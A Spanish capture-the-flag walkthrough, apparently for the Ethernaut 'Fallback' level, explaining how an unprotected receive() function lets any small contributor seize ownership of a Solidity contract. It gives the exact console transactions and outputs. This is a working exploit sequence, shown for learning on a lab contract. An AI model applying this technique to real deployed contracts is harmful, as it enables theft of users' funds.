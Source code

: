 # La importancia de una función fallback segura
Este contrato cuenta con un mecanismo de contribuciones y una función fallback que se ejecuta cuando el contrato recibe fondos sin haber pasado por una función del propio contrato.

El constructor establece una contribución de 1000 ETH para el propietario, y para clasificar como contribución, se debe enviar una cantidad mínima de 0.001 ETH.
El jugador debe aprovechar esta función fallback para transferir ETH desde el contrato a su cuenta.

El objetivo del jugador es aprovechar esta función fallback para transferir ETH desde el contrato a su cuenta.
```solidity
contract Fallback {
...
  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }
  ...
  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
 ...
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```
- Contrato Original: [Fallback](Fallback.sol)

---
## Conceptos
- La función fallback: En Solidity es una función especial que se ejecuta automáticamente cuando se envía una transacción a un contrato sin especificar una función en particular.
- Wei: Es la unidad más pequeña de Ethereum y representa la cantidad mínima divisible de ether.
---
### Conseguir el owner del contrato
Hay 2 formas de llegar al owner.

- (EXPECTED) Teniendo más contribuciones que el actual owner (1000 ETH) que se asignó en el constructor.

Tendremos que tener mas de 1000 ETH de contribuciones y por cada contribucion como maximo podemos enviar 0.001 ETH para llegar a superar al owner. (No merece la pena por la cantidad excesiva de transacciones)
```solidity
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
```

- (UNEXPECTED) Aprovechandonos de la funcion fallback vulnerable a escalar a owner
```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```
---

### Como ejecutamos la funcion fallback "receive()"?
Requisitos:
- El valor que se envie al contrato sea mayor a 0
- Las contribuciones del que cae en la funcion sea mayor a 0
```solidity
 require(msg.value > 0 && contributions[msg.sender] > 0);
 ```

Checkeamos cuantas contribuciones tenemos:
```js
-> await contract.getContribution().then(cantidad => fromWei(cantidad.toString()))
<- '0'
```

Para conseguir contribuciones tenemos que enviar MENOS de 0.001 ETH usando la funcion contribute()
```solidity
require(msg.value < 0.001 ether);
contributions[msg.sender] += msg.value;
```

1- Enviamos 0.0009 ETH que es menos de 0.001 ETH que es el maximo para realizar una contribucion.
```js
-> await contract.contribute.sendTransaction({ from: player, value: toWei('0.0009')})
<- {tx: '0xtx', receipt:...}
```
2- Comprobamos que hemos hecho una contribucion
```js
-> await contract.getContribution().then(cantidad => fromWei(cantidad.toString()))
<- '0.0009'
```

Ya tenemos el requisito de tener contribuciones mayor a 0 para que la funcion fallback se ejecute.
Para que se ejecute receive tenemos que enviar algo de ETH al contrato

```js
-> await sendTransaction({from: player, to: contract.address, value: toWei('0.0000001')})
<- '0xtx...'
```

Ya somos el owner dado a que hemos complido los requisitos de la funcion receive para que el valor owner sea el msg.sender.

```js
-> await contract.owner()
<- '0xnuestrawallet'
```
